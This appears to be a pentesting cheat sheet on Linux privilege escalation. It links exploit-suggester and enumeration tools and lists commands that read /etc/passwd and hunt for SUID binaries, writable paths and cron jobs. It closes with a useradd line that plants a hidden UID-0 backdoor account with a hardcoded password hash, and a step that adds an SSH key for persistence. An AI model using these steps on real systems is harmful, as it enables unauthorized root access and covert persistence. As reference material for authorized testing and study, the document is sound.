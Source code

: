 # Privilege Escalation

## Scripts

* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [http://pentestmonkey.net/tools/audit/unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
* linux-exploit-suggester.py
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
* [https://github.com/TH3xACE/SUDO\_KILLER](https://github.com/TH3xACE/SUDO\_KILLER)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

## Articles

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux)

## Manual

```
# Current user and hostname
whoami
id
hostname

# Existing users
cat /etc/passwd

# OS version & architecture
cat /etc/issue
cat /etc/*-release
uname -a
arch

# Processes & services
ps aux

# Networking info
ip a
/sbin/route
ss -anp

# Firewall
cat /etc/iptables
# check for iptables-save and iptables-restore commands. See if the dump file has weak permissions

# Scheduled tasks
# verify cron files permissions and content, if possible
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log

# Installed applications
dpkg -l
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null

# Check for readable/writable files & directories
find / -writable -type d 2>/dev/null

# Enumerate unmounted disks
cat /etc/fstab
mount
/bin/lsblk

# List device drivers & kernel modules
lsmod
/sbin/modinfo <name>

# Check for binaries that autoelevate
# search for binaries with SUID bit
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -002 -type f -not -path "/proc/*"  2>/dev/null

# Check SSH config
cat /etc/ssh/sshd_config

# Check various places for stuff
/var
/opt
/usr/local/src
/usr/src
/home
```

## Create Admin User

```
# mkpasswd -5 'slysandwich' saltsalt
# $1$saltsalt$ZKH1gzt6khxuPmJvab9iy0


/usr/sbin/useradd -s /bin/bash -o -u 0 -g 0 -d /tmp -p \$1\$saltsalt\$ZKH1gzt6khxuPmJvab9iy0 slysandwich
```

## Add SSH Key

Create SSH key:

```
ssh-keygen -t rsa -b 2048 -f ./user.key
```

Add the public key inside the authorized keys (\~/.ssh/authorized\_keys).
